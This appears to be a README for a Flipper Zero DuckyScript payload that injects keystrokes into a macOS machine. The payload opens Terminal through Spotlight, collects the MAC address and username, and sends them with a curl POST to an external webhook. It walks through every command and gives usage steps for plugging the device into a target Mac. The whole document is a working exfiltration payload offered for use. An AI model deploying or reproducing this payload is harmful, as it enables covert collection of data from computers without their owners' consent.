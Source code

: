 # GetMacAddress-FlipZero by bst04

## Description

This payload, created by bst04, is designed to retrieve the MAC address and username from a macOS system and send this information to a specified webhook.

---

## Technical Explanation

1. **Initialization**:
    - `DELAY 1000`: Waits for 1 second to ensure the system is ready.
    - `GUI SPACE`: Simulates pressing "Command" + "Space" to open Spotlight Search.
    - `DELAY 250`: Waits for 0.25 seconds to ensure Spotlight is open.
    - `STRING TERMINAL`: Types "TERMINAL" to search for the Terminal application.
    - `DELAY 250`: Waits for 0.25 seconds.
    - `ENTER`: Opens the Terminal application.

2. **Retrieve MAC Address**:
    - `DELAY 750`: Waits for 0.75 seconds to ensure Terminal is fully opened.
    - `STRING mac=$(networksetup -getmacaddress en0)`: Retrieves the MAC address of the primary network interface.
    - `DELAY 750`: Waits for 0.75 seconds.
    - `ENTER`: Executes the command to get the MAC address.

3. **Retrieve Username**:
    - `DELAY 750`: Waits for 0.75 seconds.
    - `STRING name=$(id -un)`: Retrieves the current user's username.
    - `DELAY 750`: Waits for 0.75 seconds.
    - `ENTER`: Executes the command to get the username.

4. **Send Data to Webhook**:
    - `DELAY 850`: Waits for 0.85 seconds.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=User:$name | $mac" https://webhook`: Sends the MAC address and username to the specified webhook.
    - `DELAY 800`: Waits for 0.8 seconds.
    - `ENTER`: Executes the command to send data to the webhook.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Replace `https://webhook` with your actual webhook URL.
4. Execute the payload to retrieve the MAC address and username, then send the data to the specified webhook.


